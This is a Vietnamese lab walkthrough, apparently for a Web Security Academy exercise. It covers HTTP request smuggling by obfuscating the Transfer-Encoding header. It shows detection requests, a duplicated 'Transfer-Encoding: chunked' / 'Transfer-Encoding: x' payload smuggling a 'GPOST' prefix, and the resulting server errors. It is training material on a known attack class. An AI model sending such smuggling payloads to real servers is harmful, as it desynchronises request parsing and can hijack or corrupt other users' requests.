

# Lab: HTTP request smuggling, obfuscating the TE header

## Detect

Ở bài này, gửi `Transfer-Encoding: chunked` theo cách thông thường thì server trả về lỗi `Invalid request`, nên cần kiểm tra xem front-end và back-end có nhận header này giống nhau hay không.

```http
POST / HTTP/1.1
Host: 0a0500130431a09f80951cc500c60004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Phản hồi:

```json
{ "error": "Invalid request" }
```

```http
POST / HTTP/1.1
Host: 0a0500130431a09f80951cc500c60004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

Phản hồi:

```json
{ "error": "Invalid request" }
```

Kết luận: request chưa đủ để khai thác trực tiếp, nhưng đây là dấu hiệu cần thử obfuscate header `Transfer-Encoding` để tạo khác biệt giữa parser của hai tầng.

## Ý tưởng khai thác

Một số front-end chỉ kiểm tra chặt header `Transfer-Encoding: chunked` ở dạng chuẩn. Nếu thêm một header `Transfer-Encoding` thứ hai hoặc làm lệch cách viết, front-end và back-end có thể chọn hai cách parse khác nhau.

Khi đó, một bên sẽ đọc theo chunked encoding, còn bên kia lại đọc theo `Content-Length`.



Lúc gửi request bị obfuscate, phản hồi `Timeout` cho thấy parser đã bị lệch pha.

## Exploit

Payload đã dùng:

```http
POST / HTTP/1.1
Host: 0a0500130431a09f80951cc500c60004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

1
G
0
```

Kết quả trả về:

```text
Unrecognized method G0POST
```

Điều này chứng tỏ phần dữ liệu smuggled đã được ghép vào đầu request kế tiếp.

Payload khai thác hoàn chỉnh:

```http
POST / HTTP/1.1
Host: 0a0500130431a09f80951cc500c60004.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0
```

Giải thích:

- Header `Transfer-Encoding` bị obfuscate để front-end và back-end không đồng ý với nhau.
- `Content-Length: 4` làm back-end cắt body sớm.
- Phần còn lại chứa `GPOST`, nên request sau đó bị biến dạng thành method không hợp lệ.

Đây là biểu hiện điển hình của TE.TE hoặc TE.CL khi header `Transfer-Encoding` bị xử lý không đồng nhất.
